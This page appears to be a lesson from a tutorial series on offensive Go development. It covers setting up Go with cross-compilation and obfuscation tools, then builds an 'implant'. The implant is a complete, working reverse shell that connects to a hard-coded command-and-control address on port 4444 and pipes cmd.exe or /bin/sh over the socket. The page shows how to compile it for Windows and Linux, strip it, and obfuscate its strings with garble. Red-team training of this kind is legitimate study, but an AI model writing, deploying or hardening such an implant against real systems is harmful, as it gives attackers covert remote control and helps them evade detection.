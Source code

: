 ```yaml
---
showTableOfContents: true
title: "Part 5 - Practical: Setting Up Your Offensive Go Environment"
type: "page"
---
```


## **PART 5: PRACTICAL - SETTING UP YOUR OFFENSIVE GO ENVIRONMENT**

### **Development Environment Setup**

Let's build a professional cross-compilation environment for offensive Go development.

**Step 1: Install Go**

```bash
# Linux/macOS
wget https://go.dev/dl/go1.21.5.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.21.5.linux-amd64.tar.gz

# Add to PATH (~/.bashrc or ~/.zshrc)
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/go
export PATH=$PATH:$GOPATH/bin

# Verify
go version
# Should output: go version go1.21.5 linux/amd64
```

```powershell
# Windows (PowerShell as Admin)
# Download installer from https://go.dev/dl/
# Or use chocolatey:
choco install golang

# Verify
go version
```

**Step 2: Configure for Cross-Compilation**

```bash
# Go supports cross-compilation out of the box!
# No additional setup needed for basic targets

# Verify available targets
go tool dist list

# Output includes:
# windows/amd64
# windows/386
# linux/amd64
# darwin/amd64
# ... many more
```


**Step 3: Install Offensive Development Tools**

```bash
# 1. Garble (Obfuscation)
go install mvdan.cc/garble@latest

# 2. UPX (Compression) - optional, use cautiously
# Linux
sudo apt-get install upx-ucl

# macOS
brew install upx

# 3. PE Analysis Tools
# Windows: PE-bear, CFF Explorer, Detect It Easy
# Linux: Install via wine or use alternatives

# 4. MinGW for CGO (if you need C integration)
# Linux
sudo apt-get install mingw-w64

# Verify CGO cross-compilation
CGO_ENABLED=1 GOOS=windows GOARCH=amd64 CC=x86_64-w64-mingw32-gcc \
  go build -o test.exe test.go
```

**Step 4: IDE Setup (GoLand Recommended)**

```
GOLAND (JetBrains):
• Best Go IDE
• Excellent debugging
• Refactoring tools
• ~$90/year (free for students)

Configuration:
1. Install Go plugin
2. Set GOROOT: /usr/local/go
3. Set GOPATH: ~/go
4. Enable Go modules
5. Configure build tags for Windows target
```

**Alternative: VS Code**

```bash
# Install VS Code Go extension
code --install-extension golang.go

# Configuration (settings.json)
{
    "go.toolsManagement.autoUpdate": true,
    "go.useLanguageServer": true,
    "go.buildFlags": ["-ldflags=-s -w"],
    "go.buildTags": "windows"
}
```


### **Your First Offensive Go Binary**

Let's build a simple but functional reverse shell, then analyze it.

**implant.go:**

```go
package main

import (
	"net"
	"os"
	"os/exec"
	"runtime"
)

func main() {
	// C2 server address
	c2 := "192.168.1.100:4444"

	// Connect to C2
	conn, err := net.Dial("tcp", c2)
	if err != nil {
		os.Exit(0)
	}
	defer conn.Close()

	// Determine shell based on OS
	var cmd *exec.Cmd
	if runtime.GOOS == "windows" {
		cmd = exec.Command("cmd.exe")
	} else {
		cmd = exec.Command("/bin/sh")
	}

	// Pipe I/O through connection
	cmd.Stdin = conn
	cmd.Stdout = conn
	cmd.Stderr = conn

	// Execute
	cmd.Run()
}
```

**Building for Different Targets:**

```bash
# Windows 64-bit (from Linux/Mac)
GOOS=windows GOARCH=amd64 go build -o implant_win64.exe implant.go

# Windows 32-bit
GOOS=windows GOARCH=386 go build -o implant_win32.exe implant.go

# Linux 64-bit
GOOS=linux GOARCH=amd64 go build -o implant_linux64 implant.go

# Check sizes
ls -lh implant_*
```

<br> 

![different os sizes](../img/os_sizes.png)

We can see here that the size of both the linux64 and win32 executables are 2.8MB, while the win64MB is 3.0MB.

Let's see what effect it will have if we strip the debug info:

```bash
# Strip debug info, reduce size
GOOS=windows GOARCH=amd64 go build \
  -ldflags="-s -w" \
  -trimpath \
  -o implant_optimized.exe \
  implant.go

```
<br> 

![stripped binary](../img/stripped.png)

By stripping the debug info we've now managed to reduce the size further to 2.0MB.

Let's now use garble to encrypt our string:

```bash
# Obfuscate code
GOOS=windows GOARCH=amd64 garble -literals -tiny build \
  -o implant_obfuscated.exe \
  implant.go
# -literals: encrypt strings
# -tiny: optimize for size
```

<br> 

![garbled binary](../img/garbled.png)





---
[|TOC|]({{< ref "../../moc.md" >}})
[|PREV|]({{< ref "./runtime.md" >}})
[|NEXT|]({{< ref "../../moc.md" >}})